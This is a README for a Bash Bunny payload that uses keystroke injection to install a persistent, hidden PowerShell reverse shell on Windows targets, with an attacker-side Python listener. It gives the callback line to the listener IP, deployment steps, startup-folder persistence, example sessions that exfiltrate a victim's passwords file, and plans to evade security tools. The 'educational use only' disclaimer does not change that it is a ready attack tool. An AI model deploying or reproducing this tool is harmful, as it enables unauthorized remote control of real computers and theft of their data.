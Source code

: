 # Persistent Reverse Shell with Terminal UI Listener

**Author:** CyberJulian  
**Category:** Network  
**Target OS:** Windows 10, 11  
**Attack Modes:** HID, STORAGE 

---

## ⚠️ Disclaimer  
This project is intended for **educational and authorized testing purposes only**. Unauthorized use of this software is strictly prohibited.

---

## Overview  
This **Bash Bunny payload** deploys a **persistent reverse shell** on a Windows target, enabling remote access via a feature-rich terminal interface. The script runs on system startup, ensuring continuous reconnection even after reboots.

## Features  
✅ **Persistent Connection** – Automatically reconnects on system startup.  
✅ **Stealthy Execution** – Runs in the background from a hidden directory.  
✅ **Command Execution** – Executes shell commands remotely and returns output.  
✅ **File Download** – Transfer files from the target system to the attacker machine.  
✅ **Interactive Terminal UI** – Enhanced console interface with status tracking.  
✅ **Paged Output** – Easily navigate through large command outputs.  
✅ **Automatic Deployment** – Installs via Bash Bunny keystroke injection.  

---

## How It Works

### **1️⃣ Execution via Bash Bunny**  
- The Bash Bunny injects keystrokes to **run a PowerShell command** that:  
  - Copies the reverse shell script to a **hidden directory** (`%APPDATA%\HiddenFolder`).  
  - Creates a **batch script** in the Windows **Startup folder** for persistence.  

### **2️⃣ Persistent Connection Attempt**  
- The reverse shell script **loops continuously**, trying to connect to the **designated listener IP and port**.  
- If the connection is lost, the script **retries every 5 seconds** until successful.  
- If the system reboots, the **Startup script automatically restarts the process**.

### **3️⃣ Remote Command Execution**  
- Once connected, the target device **listens for commands** from the remote listener.
- The session remains active until manually terminated.
  - To **fully terminate the script**, type "exit". This will **completely stop execution** and close the connection.
   - You'd have to wait for the computer to reboot in order to connect once more
  - To stop the connection while **keeping the script running on loop**, enter Control+C

---

## Setup Instructions

### **🔹 Listener (Attacker Machine)**
1. Start the listener on your machine:
   ```bash
   python3 listener.py
   ```
2. When prompted, enter your desired port (port 4444 is default)
3. The terminal UI will appear showing:
   - Connection status and information
   - Command history and output
   - Interactive shell prompt

### **🔹 Listener Interface Features**
- **Visual Status Tracking** – See connection status and client details at a glance
- **Command History** – View previously executed commands and their outputs
- **Paged Output** – Large command responses are displayed in easily navigable pages
- **File Downloads** – Use the `download <filepath>` command to transfer files from target to attacker
- **Executable Launcher** – Easily launch executables, batch files, and shortcuts on the target
- **Clean Exit** – Type `exit` to terminate the session (You'll have to wait for the computer to restart if you close with `exit`)
    - Use Control + C to end your connection and keep the program running on the target computer for a later connection

### **🔹 Deployment via Bash Bunny**
1. **Edit reverse.ps1** to set the correct **listener IP address**:
- Open reverse.ps1 and locate this line:
  ```
  $client = New-Object System.Net.Sockets.TCPClient("192.168.1.0", 4444)
  ```  
  - Replace 192.168.1.0 with your listener's IP address.  
  - Replace 4444 with your listener's port, if necessary. 
2. **Copy the payload files** to your Bash Bunny:
   ```
   /payloads/switch1/
   ├── payload.txt
   ├── setup_reverse_shell.ps1
   ├── reverse.ps1
   ```
3. **Insert the Bash Bunny into the target Windows machine.**
4. The payload will:
   - Copy the reverse shell script to a hidden directory.
   - Create a **Startup entry** to ensure persistence.
   - Initiate the first connection attempt.

---

## Payload Breakdown

### **`payload.txt` (Main Bash Bunny Script)**
- Configures the Bash Bunny as a **HID & Storage device**.
- Runs the **PowerShell setup script** from the Bash Bunny storage.
- Executes the **reverse shell script** from its new hidden location.

### **`setup_reverse_shell.ps1` (Persistence Setup)**
- Copies `reverse.ps1` to a hidden directory.
- Creates a **Startup script** in the Windows **Startup folder**.
- Ensures the reverse shell script runs on every system boot.

### **`reverse.ps1` (Reverse Shell Loop)**
- **Attempts to connect** to the attacker's listener IP & port.
- **Executes received commands** and returns output.
- **Loops indefinitely**, retrying if disconnected (every 5 seconds).

### **`listener.py` (Terminal UI Listener)**
- **Provides an interactive terminal interface** for the attacker.
- **Processes and displays** command outputs in a clean format.
- **Handles file transfers** from the target system.
- **Manages connection status** and provides visual feedback.

---

## Usage Examples

### **Basic Commands**
```
Shell> whoami
victim-pc\user

Shell> systeminfo | findstr OS
OS Name:                   Microsoft Windows 11 Home
OS Version:                10.0.22621 N/A Build 22621
```

### **File Downloads**
```
Shell> download C:\Users\user\Documents\passwords.txt
[+] File saved as: passwords.txt
```

### **Executing Programs**
```
Shell> cmd /c start notepad.exe
[*] Executing program: notepad.exe
[.] No output received.
```

---

### 🎯 **Future Enhancements**
- Force target device to **connect to desired network** if applicable.
- Implement **multi-platform support** (Mac & Linux).
- Add **file upload capability** to send files to the target.
- Improve **stealth** to bypass security tools & clean tracks.
- Add **encryption** for secure communication.
- Implement **session logging** to save command history.

---

## 🏆 Credits  
Created by **CyberJulian**
